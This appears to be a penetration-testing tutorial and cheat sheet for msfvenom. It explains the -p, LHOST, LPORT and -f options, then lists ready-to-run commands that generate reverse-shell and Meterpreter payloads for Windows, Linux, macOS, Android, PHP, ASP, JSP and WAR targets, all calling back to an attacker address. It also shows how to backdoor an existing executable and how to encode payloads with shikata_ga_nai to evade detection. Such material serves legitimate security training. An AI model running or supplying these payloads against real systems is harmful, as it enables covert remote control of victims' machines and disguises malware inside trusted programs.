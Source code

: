						![image](https://user-images.githubusercontent.com/88451628/172545912-a8e7bcb6-f75d-4b5d-9ea2-c1ccd0d306ff.png)
You can use the -p option to indicate which payload you want to utilize. Lhost seems to be the attacker’s IP address to which you want the payload to link. Lport is just the same as above; this is the port that the payload will link to, and it must be configured in the handler. -f instructs Msfvenom how to generate the payload; in this case, we’re going for a program executable or exe. The payload created by the above command’s execution is 7168 bytes, as shown from the above-attached image.
The command above instructs msfvenom to generate a 64-bit Windows executable file that implements a reverse TCP connection for the payload. The format must be specified as being type .exe, and the local host (LHOST) and local port (LPORT) have to be defined. In our case, the LHOST is the IP address of our attacking Kali Linux machine that we got in the last command, and the LPORT is the port to listen on for a connection from the target once it has been compromised.
The name of the .exe is up to you. 

Other interesting Venom payloads…
Binaries
Create a simple TCP Payload for Windows
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=3333 -f exe > example.exe
Create a simple HTTP Payload for Windows
root@kali:~# msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.1.2 LPORT=3333 -f exe > example.exe
Creates a simple TCP Shell for Linux
root@kali:~# msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=3333 -f elf > example.elf

Creates a simple TCP Shell for Mac
root@kali:~# msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.1.2 LPORT=3333 -f macho > example.macho
Creats a simple TCP Payload for Android
root@kali:~# msfvenom -p android/meterpreter/reverse/tcp LHOST=192.168.1.2 LPORT=3333 R > example.apk
Web Payloads
Create a Simple TCP Shell for PHP
root@kali:~# msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.2 LPORT=3333 -f raw > example.php
Create a Simple TCP Shell for ASP
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=3333 -f asp > example.asp
Create a Simple TCP Shell for Javascript
root@kali:~# msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=3333 -f raw > example.jsp
Create a Simple TCP Shell for WAR
root@kali:~# msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=3333 -f war > example.war
Windows Payloads
Creates a backdoor in an executable file (.exe)
root@kali:~# msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=3333 -f exe > example.exe
Create a simple TCP payload with shikata_ga_nai encoder.
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=3333 -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe
Binds an exe with a Payload and encodes it
root@kali:~# msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=3333 -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe > example.exe
